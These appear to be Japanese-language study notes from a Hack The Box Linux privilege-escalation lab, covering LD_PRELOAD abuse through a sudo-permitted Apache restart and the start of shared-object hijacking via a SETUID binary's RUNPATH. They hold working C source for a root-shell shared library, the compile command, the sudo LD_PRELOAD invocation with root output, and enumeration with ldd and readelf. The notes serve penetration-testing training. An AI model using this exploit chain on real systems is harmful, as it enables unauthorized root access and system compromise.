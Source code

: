- このユーザーは、rootとしてApacheサービスを再起動する権限を持っていますが、これはGTFOBinではなく、`/etc/sudoers`エントリが絶対パスを指定して記述されているため、通常の状態では権限を昇格させるために使用することはできない
- しかし、LD_PRELOADの問題を利用して、カスタムの共有ライブラリファイルを実行できる

以下の共有ライブラリファイルを実行できる
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

コンパイル
```shell-session
htb_student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

LD_PRELOADを使用して、apache2を再起動する
```shell-session
htb_student@NIX02:~$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

id
uid=0(root) gid=0(root) groups=0(root)
```

## 共有オブジェクトハイジャック
- 開発中のプログラムやバイナリには通常、関連するカスタムライブラリがある
- 次のSETUIDバイナリについて考える
```shell-session
ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

lddを使用して、バイナリまたは共有オブジェクトに必要な共有オブジェクトを表示できる
lddは、プログラムの依存関係ごとに、オブジェクトの場所と、メモリにロードされる16進アドレスを表示する
- バイナリの依存関係として、libshared.soという非標準のライブラリが表示
	- バイナリに対してlddを実行すると、ライブラリのパスが/development/libshared.soとして表示される⇨**脆弱性があることを意味**
```shell-session
ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

- カスタムの場所から共有ライブラリをロードすることが可能
	- 設定の1つがRUNPATH構成
	- このフォルダ内のライブラリは、他のフォルダよりも優先される
	- readelfユーティリティを使用して調べることができる
```shell-session
readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
